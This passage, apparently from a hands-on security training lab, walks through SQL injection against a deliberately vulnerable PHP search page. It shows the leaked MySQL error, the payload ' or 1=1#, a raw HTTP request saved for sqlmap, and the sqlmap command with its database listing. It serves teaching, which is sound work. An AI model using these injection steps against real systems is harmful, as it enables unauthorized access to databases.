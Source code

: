 ## 4) Misuse input validation vulnerability

> **Duration:** 5 minutes
- Enter a single quote (`'`)  into the text field and press the button
- Examine the related request and response
- Examine the error messages
```
Welcome to the matrix
Database Error - le 28/04/2023 à 05:35:11
File: /var/www/html/php/bibli_cuiteur.php
Line: 806
MySQL Error: 1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
SQL Request

          SELECT DISTINCT usID, usPseudo, usNom , usAvecPhoto FROM users WHERE usNom LIKE '%'%'

Stacktrace
In file: /var/www/html/php/recherche_old.php
line: 47

Function called: fd_aff_users_simple
Argument #1 : '''
```
- Enter `' or 1=1#` into the text field and press the button
- Examine the output


## 5) Retrieve arbitrary data from the database through SQL injection

> **Duration:** 10 minutes

- Copy the request below and paste it into a text file called `sqli.txt`
```sh
POST /php/recherche_old.php HTTP/1.1
Host: 10.0.3.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.0.3.193
Connection: close
Referer: http://10.0.3.193/php/recherche_old.php
Cookie: PHPSESSID=a62f5c5fio2i8l8spkas8mfjt6
Upgrade-Insecure-Requests: 1

recherche=emre&btnRechercher=Rechercher
```
- Copy the PHPSESSID from your browser and replace the value found in the `sqli.txt`
### 5.1 Execute `sqlmap` to identify database names
```sh
sqlmap -r sqli.txt --dbms=mysql --dbs 
```
- Examine the output
```sh
available databases [5]:
[*] cuiteur
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```